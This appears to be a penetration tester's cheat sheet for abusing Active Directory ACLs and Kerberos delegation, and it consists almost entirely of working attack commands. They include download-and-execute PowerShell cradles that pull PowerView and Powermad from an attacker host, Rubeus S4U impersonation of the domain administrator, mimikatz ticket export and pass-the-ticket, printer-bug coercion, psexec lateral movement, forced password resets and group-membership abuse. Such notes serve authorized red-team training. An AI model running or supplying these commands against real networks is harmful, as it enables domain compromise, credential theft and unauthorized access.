 # Abusing ACLs

## Generic Write - Computer

### Kerberos Resource-based Constrained Delegation: Computer Object Takeover

Download powermad to create computer object

```
PS C:\Users> IEX(new-object net.webclient).downloadstring('http://192.168.X.Y/Powermad.ps1')
PS C:\Users> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```

Create a new raw security descriptor

```
PS C:\Users> IEX(new-object net.webclient).downloadstring('http://192.168.X.Y/PowerView.ps1')
PS C:\Users> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
PS C:\Users> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
PS C:\Users> $SDbytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Users> $SD.GetBinaryForm($SDbytes,0)
```

Applying the security descriptor bytes to the target

```
PS C:\Users> Get-DomainComputer -Identity <GENERIC WRITE COMPUTER> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
PS C:\Users> $RBCDbytes = Get-DomainComputer <GENERIC WRITE COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity'| select -expand msds-allowedtoactonbehalfofotheridentity
PS C:\Users> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
```

Confirm Security descriptor is the same as the fake machine created

```
PS C:\Users> $Descriptor.DiscretionaryAcl
PS C:\Users> convertfrom-sid <SID from Descriptor>
```

Generate RC4 Hash

```
PS C:\Users> .\Rubeus.exe hash /password:h4x /user:myComputer$ /domain:Test.Domain
```

Impersonation

```
PS C:\Users> .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/WriteComputer.Test.Domain /ptt
```

Confirm access to target computer

```
PS C:\Users> dir \\WriteComputer.Test.Domain\c$
```

Lateral Movement

```
PS C:\Users> .\psexec.exe -accepteula \GenericWrite.Test.Domain powershell
```

## Unconstrained Delegation

* forwardable tgt
* if used and compromise web service can steal all users tgts

### Enumeration

* trusted for delegation

```
Get-DomainComputer -unconstrained
```

* must compromise computer in question
* or compromise application on machine
* once compromised load up mimikatz

```
privilege::debug
load kiwi
kiwi_cmd sekurlsa::tickets /export
```

* copy the admin or user b64 .kirby ticket to a file
* remove new lines and spaces from the copy

```
echo -n $(cat admin.kirbi) | tr -d " " > admin2.kirbi
```

* Dont use kiwi\_cmd to load... normal meterpreter will work (kiwi failed on me)

```
kerberos_ticket_use /home/kali/admin2.kirbi
or
mimikatz # kerberos::ptt admin2.kirbi
```

* Now you can access resources that the user has access to

## Constrained Delegation

Hunting for user accounts that have kerberos constrained delegation enabled:

{% code title="attacker@target" %}
```
Get-NetUser -TrustedToAuth
```
{% endcode %}

Monitor for TGTs from the Domain Controller

```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

using a second command prompt we’ll use  [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

```
SpoolSample.exe [target] [capturesvr]
or
.\Rubeus.exe tgtdeleg
```

Request TGS for impersonated user

```
rubeus.exe ptt /ticket:oIFIjCCBR6g....  /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.fake.domain /dc:dc01.fake.domain /ptt
```

Confirm ticket is load

```
klist
```

confirm access to dc

```
dir \\dc0.fake.domain\c$
```

## GenericAll User

Check to see AD Rights for Generic ALl

```
Get-ObjectAcl -SamAccountName <CURRENT ACCOUNT> -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

With all writes, you can change the password of the targeted user

```
net user TARGETME passwordreset123 /domain
```

## GenericAll Group

Check for groups with permissions to&#x20;

```csharp
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $.SecurityIdentifier.value) -Force; $} | Foreach-Object {if ($.Identity -eq $("$env:UserDomain$env:Username")) {$}}
```

If one of them has GenericAll in ActiveDirectoryRights, you can add a user to it

```
net group "TARGET GROUP" evil_account /add /domain
```

## ForceChangePassword

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

```csharp
Set-DomainUserPassword -Identity TARGETUSER -Verbose
```
